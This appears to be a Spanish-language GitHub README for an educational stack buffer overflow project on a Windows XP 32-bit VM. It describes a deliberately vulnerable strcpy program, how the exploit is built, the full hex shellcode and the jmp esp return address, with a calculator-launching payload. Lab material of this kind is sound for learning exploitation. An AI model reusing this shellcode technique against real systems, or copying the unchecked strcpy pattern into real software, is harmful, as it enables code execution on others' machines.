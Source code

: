 <h1>Descripción</h1>
<p>El proyecto Tsunami consiste en hacer un programa vulnerable a <a href="https://es.wikipedia.org/wiki/Desbordamiento_de_b%C3%BAfer">buffer overflow</a>, y otro que aproveche esta vulnerabilidad para ejecutar la calculadora</p>
<p>Para este proyecto se usa un <a href="https://javiermartinalonso.github.io/devops/devops/vagrant/2018/02/09/vagrant-vagrantfile.html">Vagrantfile</a> que emulará una máquina Windows XP 32 bits donde se hará todo el proceso</p>
Para la creación del proyecto se ha seguido la explicación de <a href="https://wiki.elhacker.net/bugs-y-exploits/overflows-y-shellcodes/exploits-y-stack-overflows-en-windows">esta página</a>, sin embargo también haré una breve explicación del código aquí.
<h2>Archivos</h2>
<p>A continuación se hará una breve descripción de cada archivo y su función. El funcionamiento interno de cada archivo se encuentra explicado con más detalle en los comentarios de cada uno.</p>
<h3>Vuln1.c</h3>
<p>Este archivo es el ejecutable vulnerable al buffer overflow, debido a que usa la función strcpy y no comprueba la longitud que de los datos introducidos en el buffer</p>
<h3>Offset.c</h3>
<p>Esta función se usa en el proceso de creación del exploit. Al darle como argumentos una librería y una función dentro de la misma nos devolverá una dirección de memoria, donde se encuentra la función en la máquina (más adelante veremos su uso)</p>
<h3>Shellcode.c</h3>
<p>Este archivo contiene el código que iniciará la calculadora. El código está en ensamblador (se pueden encontrar ejemplos similares en internet) y para obtener las dos direcciones de memoria que podemos ver dentro del código se ha usado el offset.c</p>
<h3>Findjmp.exe</h3>
<p>Este archivo se usa para conseguir el offset de la librería kernel32.dll que necesitaremos para el shellcode</p>
<h3>Exploit.c</h3>
<p>Este es el programa que aprovechará la vulnerabilidad del programa vuln1 para desbordar el buffer y abrir la calculadora</p>

<h2>Creación</h2>
<p>El primer paso será compilar el archivo vulnerable de la siguiente forma:</p>

```
cl vuln1.c
```

Esto nos dará un archivo .obj y un archivo .exe, que será el ejecutable vulnerable.<br>
El siguiente paso será buscar los offsets necesarios para crear el shellcode, para ello compilaremos el archivo offset.c y lo ejecutaremos de la siguiente forma:

```
cl offset.c
offset.exe kernel32.dll LoadLibraryA 
offset.exe msvcrt.dll system
```

El comando cl nos dará el archivo .exe que será el que usaremos para los siguientes comandos, ambos nos darán como resultado las siguientes direcciones de memoria:<br>
`0x7c801d7b`<br>
`0x77c293c7`<br>

Estás direcciones son las correspondientes a las funciones (tercer argumento de los comandos) en las librerías (segundo argumento en los comandos). Necesitaremos esta dirección para ejecutar las funciones desde lenguaje ensamblador.

Ahora haremos el shellcode con las direcciones que hemos conseguido, en <a href="https://wiki.elhacker.net/bugs-y-exploits/overflows-y-shellcodes/exploits-y-stack-overflows-en-windows">esta página</a> podremos encontrar un ejemplo de shellcode, sin embargo este ejecutará la consola, mientras que nuestro proyecto busca ejecutar la calculadora.
Veremos que la única diferencia se encuentra en las direcciones de memoria y en las líneas con este formato: `mov byte ptr [ebp-08h],63h`

Los 2 números al final de cada línea son cada una las letras (en <a href="https://ascii.cl/es/">hexadecimal</a>) que conformarán en el primer caso la librería que queremos cargar y en el segundo el comando a ejecutar, `msvcrt.dll` y `calc.exe` respectivamente.

Con esto ya tendríamos el shellcode, pero no nos sirve así, lo necesitamos en hexadecimal para convertirlo en un payload, para esto haremos lo compilaremos

```
cl shellcode.c
```

Este comando nos dará un `shellcode.obj` y un `shellcode.exe`. El que nos interesa en este caso es el primero, pero como hemos dicho lo queremos en hexadecimal, para ello usaremos el siguiente comando:

``` 
xdd -i shellcode.obj
```

Ahora tenemos que formatear el output que hemos conseguido para que quede de la siguiente forma `\x55\x8b\xec\x33...`, para ello usaremos el siguiente comando
```
xxd -i -c1024 shellcode.obj | sed -e 's/0x/\\x/g' | sed -e 's/, //g'|tr -d ,
```
Lo que tenemos es básicamente el shellcode compilado pero en un formato que el exploit podrá utilizar. Tendremos que buscar las partes donde haya un `\x55\x8b` que son el principio y el final del comando en ensamblador.
El código resultante será el siguiente
```
\x55\x8b\xec\x33\xff\x57\x83\xec\x0c\xc6\x45\0xf5\x6d\xc6\x45\xf6\x73\xc6\x45\xf7\x76\xc6\x45\xf8\x63\xc6\x45\xf9\x72\xc6\x45\xfa\x74\xc6\x45\xfb\x2e\xc6\x45\xfc\x64\xc6\x45\xfd\x6c\xc6\x45\xfe\x6c\x8d\x45\xf5\x50\xbb\x7b\x1d\x80\x7c\xff\xd3\x55\x8b\xec\x33\xff\x57\x83\xec\x08\xc6\x45\xf7\x63\xc6\x45\xf8\x61\xc6\x45\xf9\x6c\xc6\x45\xfa\x63\xc6\x45\xfb\x2e\xc6\x45\xfc\x65\xc6\x45\xfd\x78\xc6\x45\xfe\x65\x8d\x45\xf7\x50\xbb\xc7\x93\xc2\x77\xff\xd3
```
Con esto ya tendríamos todo lo necesario para crear nuestro exploit así que vamos al lío.

Crearemos un buffer muy grande (en mi caso 1024 bytes) donde cargaremos todo el payload. Guardaremos el código hexadecimal del shellcode en una string shellcode para añadirlo al payload más tarde.
Ahora usaremos el findjmp.exe para encontrar el offset necesario para que el exploit funcione:
```
findjmp.exe kernel32.dll esp
```
Esto nos devolvera una dirección pero tendremos que introducirla en otro string al revés siendo el resultado el siguiente:
```
\x7B\x46\x86\x7C
```

Comprobaremos que se introduzca 1 argumento a la hora de ejecutar el exploit. Copiaremos el argumento que hayamos introducido en el buffer grande, para llenar el buffer vulnerable de la aplicación, luego añadiremos la dirección de memoria que acabamos de conseguir y tras esto el shellcode.

Tras esto ejecutaremos el programa vulnerable dandole como argumento el buffer malicioso que hemos creado y se abrirá la calculadora.
